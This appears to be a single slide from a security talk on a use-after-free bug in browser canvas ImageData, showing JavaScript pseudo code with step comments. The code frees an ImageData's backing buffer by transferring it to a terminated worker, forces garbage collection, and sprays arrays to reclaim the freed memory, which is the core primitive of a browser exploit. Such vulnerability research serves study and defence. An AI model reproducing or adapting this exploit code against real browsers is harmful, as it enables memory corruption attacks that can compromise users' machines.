

04
Canvas ImageData UAF Vulnerability Analysis and Exploitation : Exploitation One
Pseudo code

var canvas = document.getElementById('canvas');
var ctx = canvas.getContext('2d', {alpha: false});
var ta = new Uint8ClampedArray(ab)
var imageData = new ImageData(ta, 0x80, 0x80);

w = new Worker(null);
w.postMessage("ok", [ta.buffer]);
w.terminate();
w = null;
CollectGarbage();
for(var i=0;i<0x80000;i++){
    zz[i] = new Array(0x10);
}

// Create a TypedArray of Unit8ClampedArray

// Create an ImageData that references Unit8ClampedArray with a length and width of 0x80

// Release the buffer of the TypedArray in ImageData

//Occupy by Array (0x10)